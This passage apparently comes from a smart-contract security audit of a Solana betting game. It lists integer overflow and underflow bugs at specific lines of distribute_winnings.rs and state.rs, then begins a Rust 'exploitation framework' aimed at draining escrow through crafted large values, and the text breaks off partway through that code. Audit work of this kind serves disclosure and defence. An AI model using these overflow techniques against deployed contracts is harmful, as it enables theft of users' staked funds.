 ```rust
    let huge_duration = (crafted_end - crafted_start) as u64;
    let massive_bonus = huge_duration * bonus_rate; // Overflow to small value
}
```

## Proof of Concept

✅ **PROOF OF CONCEPT COMPLETED**
📁 **Location**: `/src/tests/vuln-031-arithmetic-overflow-poc.rs`
🎯 **Status**: CRITICAL vulnerabilities demonstrated with working exploits

### Validated Vulnerabilities in Source Code:
1. **Line 39 distribute_winnings.rs**: `kills_and_spawns as u64 * game_session.session_bet / 10` - Overflow vulnerability
2. **Line 171 distribute_winnings.rs**: `game_session.session_bet * players_per_team as u64 * 2` - Pot calculation overflow
3. **Line 174 distribute_winnings.rs**: `game_session.session_bet * 2` - Winning amount overflow
4. **Line 176 state.rs**: `self.team_a.player_spawns[victim_player_index] -= 1` - Underflow vulnerability
5. **Line 186 state.rs**: `self.team_a.player_spawns[player_index] += 10u16` - Spawn overflow

### Complete Overflow Exploitation Framework

```rust
use borsh::{BorshDeserialize, BorshSerialize};
use solana_program::{
    account_info::AccountInfo,
    entrypoint,
    entrypoint::ProgramResult,
    msg,
    pubkey::Pubkey,
};

#[derive(BorshSerialize, BorshDeserialize, Debug)]
pub struct ArithmeticExploit {
    pub target_account: Pubkey,
    pub overflow_trigger: u64,
    pub underflow_trigger: u64,
    pub exploit_type: ExploitType,
}

#[derive(BorshSerialize, BorshDeserialize, Debug)]
pub enum ExploitType {
    BalanceOverflow,
    RewardUnderflow,
    TimeManipulation,
    CompoundOverflow,
}

impl ArithmeticExploit {
    // Exploit 1: Balance overflow to drain escrow
    pub fn execute_balance_overflow(&self) -> ProgramResult {
        msg!("Executing balance overflow attack");

        // Craft maximum value inputs
        let malicious_stake = u64::MAX - 100;
        let small_multiplier = 2;

        // Overflow in calculation results in small reward
        let calculated_reward = malicious_stake.wrapping_mul(small_multiplier);
        msg!("Overflow result: {} (should be massive)", calculated_reward);

        // Protocol pays out small reward for massive stake
```